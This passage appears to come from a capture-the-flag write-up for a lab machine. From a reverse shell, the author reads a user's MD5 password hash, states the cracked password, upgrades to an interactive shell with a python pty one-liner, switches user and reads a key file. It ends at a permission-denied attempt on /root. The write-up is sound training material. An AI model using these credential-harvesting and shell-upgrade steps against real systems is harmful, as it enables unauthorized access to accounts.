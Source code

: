     - Change dir to /home/robot to check what happens. We can see that the password in md5 maybe it is the password to switch user robot
    
    ```
    daemon@linux:/home/robot$ ls
    ls
    key-2-of-3.txt
    password.raw-md5
    daemon@linux:/home/robot$ cat key-2-of-3.txt
    c
    at key-2-of-3.txt
    cat: key-2-of-3.txt: Permission denied
    daemon@linux:/home/robot$ cat password.raw-md5
    cat password.raw-md5
    robot:c3fcd3d76192e4007dfb496cca67e13b
    
    ```
    
    - Password decrypted: **abcdefghijklmnopqrstuvwxyz**
    - Switch user robot but we working with a reverse shell so the shell session isn't recognized as a terminal.
    
    ```
    daemon@linux:/home$ su robot
    su robot
    su: must be run from a terminal // it must run from terminal
    daemon@linux:/home$ 
    
    ```
    
    [?] How to fix this
    
    - **We have spawn an Interactive Shell**:
    
    ```
    daemon@linux:/home$ python -c 'import pty; pty.spawn("/bin/bash")'
    python -c 'import pty; pty.spawn("/bin/bash")'
    daemon@linux:/home$ su robot
    su robot
    Password: abcdefghijklmnopqrstuvwxyz
    
    robot@linux:/home$
    ```
    
    - The second key:
    
    ```
    robot@linux:~$ cat key-2-of-3.txt
    cat key-2-of-3.txt
    822c73956184f694993bede3eb39f959
    ```
    

- Find the 3rd key
    - We use find command but it doesn’t show anything. I guest that it is hided in /root
    
    ```
    robot@linux:~$ find / -name 'key-3-of-3.txt' 2>/dev/null
    find / -name 'key-3-of-3.txt' 2>/dev/null
    robot@linux:~$ 
    robot@linux:/$ cd root
    cd root
    **bash: cd: root: Permission denied [*]**
    ```
    